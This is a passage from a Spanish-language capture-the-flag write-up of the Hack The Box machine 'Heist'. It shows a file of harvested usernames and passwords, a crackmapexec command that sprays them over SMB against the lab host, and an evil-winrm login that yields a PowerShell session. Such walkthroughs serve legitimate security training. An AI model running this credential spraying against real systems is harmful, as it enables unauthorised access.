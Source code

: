 ```bash
1013: SUPPORTDESK\Jason (SidTypeUser)
```

Opa, obtenemos los usuarios locales yyyy no solo esta **Hazard**, al menos ya tenemos más para probar, así que hagámoslo sencillo, guardemos toooodas las credenciales en un archivo y con **crackmapexec** hagamos que vaya probando de una en una. Así no tenemos que hacerlo a mano :P

```bash
❱ cat users.txt 
Administrator
Guest
DefaultAccount
WDAGUtilityAccount
None
support
Chase
Jason
secret
admin
rout3r
stealth1agent
Q4)sJu\Y8qz*A3?d
$uperP@ssword
```

Y ahora le pasamos el archivo:

```bash
❱ crackmapexec smb 10.10.10.149 -u users.txt -p users.txt                                                                
```

Despues de un pequeño rato obtenemos:

![201bash_crackmapexec_user_chase](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/heist/201bash_crackmapexec_user_chase.png)

Unas nuevas credenciales, pues volvamos a probar con todas las opciones a ver...

Finalmente ante **evil-winrm** conseguimos una **PowerShell**:

![201bash_evilwinrm_chase](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/heist/201bash_evilwinrm_chase.png)
